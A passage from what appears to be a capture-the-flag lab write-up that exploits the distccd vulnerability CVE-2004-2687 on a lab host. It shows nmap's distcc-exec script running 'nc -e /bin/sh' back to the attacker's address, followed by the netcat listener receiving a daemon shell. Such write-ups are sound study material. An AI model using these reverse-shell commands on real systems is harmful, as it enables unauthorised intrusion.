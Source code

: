     |     Disclosure date: 2002-02-01
    |     Extra information:
    |       
    |     uid=1(daemon) gid=1(daemon) groups=1(daemon)
    |   
    |     References:
    |       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
    |_      https://distcc.github.io/security.md

    Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds



I'll play with this execution in more depth in [Beyond
Root](#beyond-root---distcc-exploit).

## Shell as daemon

The script above actually already showed command execution, running and
returning the results from the `id` command. I can see the process is
running as daemon.

To get a shell, I'll just start a `nc` listener, and change that command
from `id` to `nc`:



    root@kali# nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/sh 10.10.14.24 443'"
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 14:41 EDT
    Nmap scan report for 10.10.10.3
    Host is up (0.013s latency).

    PORT     STATE SERVICE
    3632/tcp open  distccd

    Nmap done: 1 IP address (1 host up) scanned in 30.48 seconds



Instantly I get a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:57188.
    id
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
